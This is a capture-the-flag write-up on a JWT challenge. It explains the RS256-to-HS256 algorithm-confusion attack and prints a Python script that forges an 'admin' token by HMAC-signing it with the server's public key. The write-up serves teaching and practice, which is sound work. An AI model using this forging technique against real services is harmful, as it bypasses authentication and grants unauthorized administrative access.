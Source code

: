 # JSON Web Token (JWT) - Public key (Medium)

![image](https://user-images.githubusercontent.com/83667873/150842727-e890094f-336d-4994-b60d-6df691aa5b70.png)

First endpoint /key provides public key

Second endpoint /auth will provide jwt token with your username (you need to provide it in request body - method POST)

Third endpoint /admin, you check you are admin or not by `Authorization: Bearer YOURTOKEN` (you need to provide your token - method POST). If you are admin, you will get the flag.

Firstly, get the public key:

![image](https://user-images.githubusercontent.com/83667873/150844931-df988ba1-034b-4191-847b-17211c24fcd3.png)


Next, I will try to get a sample jwt token, you can't use `admin` as value for username:

![image](https://user-images.githubusercontent.com/83667873/150843631-f3ce4870-35c8-4923-b193-fd9989722a02.png)

Use jwt.io to decode this value:

![image](https://user-images.githubusercontent.com/83667873/150843756-7ee1545c-f1e6-45de-b9f8-ced0bd09bbb7.png)

Payload part is pretty simple, just `username`. Pay attention to Headers part, you will see the algorithm is using is `RS256` with this algorithm, token will be encode by private and decode by public key,

But we just have public key, so we can't create a new valid token to access `/admin`. So what happen if we change the algorithm to `HS256`, this algorithm use same key to encode and decode jwt token. Okay, let's try:

Use below code to create a new jwt token use `HS256` algorithm:

```
import jwt
from codecs import encode, decode
import hmac 
import hashlib

key = open('key','rb').read()

header = b'{"typ":"JWT","alg":"HS256"}'
header = encode(header,'base64').strip()
payload = b'{"username":"admin"}'
payload = encode(payload,'base64').strip()
sig = hmac.new(key, header + b'.' + payload, hashlib.sha256).digest().strip()
sig = encode(sig, 'base64').strip()
jwt = '{}.{}.{}'.format(header.decode(), payload.decode(), sig.decode())

print(jwt)

```

![image](https://user-images.githubusercontent.com/83667873/150845970-5f73c9f0-12a7-4979-974d-33ccfe74d772.png)

Use this token, I can access to /admin and get the flag:

![image](https://user-images.githubusercontent.com/83667873/150846229-92057d9f-d5ce-4abf-88b2-352e213008d8.png)

